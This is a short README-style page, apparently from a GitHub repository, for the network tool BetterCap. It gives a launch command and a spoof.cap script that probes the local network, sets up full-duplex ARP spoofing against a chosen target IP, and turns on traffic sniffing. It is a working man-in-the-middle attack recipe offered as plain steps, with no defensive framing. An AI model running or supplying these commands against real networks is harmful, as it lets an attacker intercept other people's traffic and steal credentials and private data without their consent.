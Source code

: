 # BetterCap

![bettercap](https://raw.githubusercontent.com/bettercap/media/master/logo.png)


## To start with the program

bettercap iface **target IP**


## spoof.cap

net.probe on
</br>set arp.spoof.full duplex true
</br>set arp.spoof.target <target IP>
</br>arp.spoof on
</br>net.sniff on
